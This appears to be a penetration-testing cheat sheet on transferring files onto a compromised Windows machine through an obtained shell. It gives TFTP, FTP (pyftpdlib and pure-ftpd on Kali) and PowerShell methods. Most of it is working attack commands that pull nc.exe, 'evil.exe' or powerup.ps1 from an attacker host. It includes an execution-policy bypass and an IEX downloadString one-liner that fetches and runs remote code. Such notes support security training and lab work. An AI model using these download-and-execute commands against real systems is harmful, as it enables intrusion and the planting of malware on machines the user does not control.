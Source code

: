 # TFTP

- Windows XP and Win 2003 contain tftp client. Windows 7 do not by default 
- tfpt clients are usually non-interactive, so they could work through an obtained shell 

atftpd --daemon --port 69 /tftp
Windows> tftp -i 192.168.30.45 GET nc.exe



# FTP (pyftpdlib client on Kali)

- Ftp is generally installed on Windows machines
- To make it interactive, use -s option

## On Kali install a ftp client and set a username/password

```
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21
```

## on Windows

```
ftp <attackerip>
> binary
> get exploit.exe
```


# FTP (pureftpd client on Kali)

## on Kali

### install ftp client

```
apt-get install pure-ftpd
```

### create a group

```
groupadd ftpgroup
```

### add a user

```
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
```

### Create a directory for your ftp-files (you can also specify a specific user e.g.: /root/ftphome/bob).

```
mkdir /root/ftphome
```

### Create a ftp-user, in our example "bob" (again you can set "-d /root/ftphome/bob/" if you wish).

```
pure-pw useradd bob -u ftpuser -g ftpgroup -d /root/ftphome/
```

### Update the ftp database after adding our new user.

```
pure-pw mkdb
```

### change ownership of the specified ftp directory (and all it's sub-direcotries) 

```
chown -R ftpuser:ftpgroup /root/ftphome
```

### restart Pure-FTPD

```
/etc/init.d/pure-ftpd restart
```

### On Windows

```
echo open <attackerip> 21> ftp.txt
echo USER username password >> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```


# Powershell

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<attackerip>/powerup.ps1" >>wget.ps1
echo $file = "powerup.ps1" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## Powershell download a file

```
powershell "IEX(New Object Net.WebClient).downloadString('http://<targetip>/file.ps1')"
```